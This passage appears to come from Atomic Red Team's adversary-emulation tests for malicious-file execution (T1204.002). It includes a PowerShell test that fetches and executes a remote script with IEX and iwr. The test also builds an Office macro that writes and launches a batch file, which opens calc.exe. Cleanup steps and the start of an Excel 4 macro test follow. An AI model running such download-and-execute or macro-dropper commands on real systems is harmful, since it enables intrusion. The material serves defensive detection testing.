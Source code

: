 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| bat_path | Path to malicious .bat file | string | $("$env:temp&#92;art1204.bat")|
| ms_product | Maldoc application Word or Excel | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{bat_path}`" For Output As #1`n   Write #1, `"calc.exe`"`n   Close #1`n   a = Shell(`"cmd.exe /c #{bat_path} `", vbNormalFocus)`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct #{ms_product}
```

#### Cleanup Commands:
```powershell
Remove-Item #{bat_path} -ErrorAction Ignore
Get-Process | Where-Object { $_.MainModule.FileName -like "*calculator*" } | Stop-Process
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #6 - Excel 4 Macro
This module creates an Excel 4 Macro (XLM) enabled spreadsheet and executes it. The XLM will first write a "malicious"
VBS file to %TEMP%, then execute this file. The VBS will download Process Explorer to the same directory (%TEMP%) and exec.
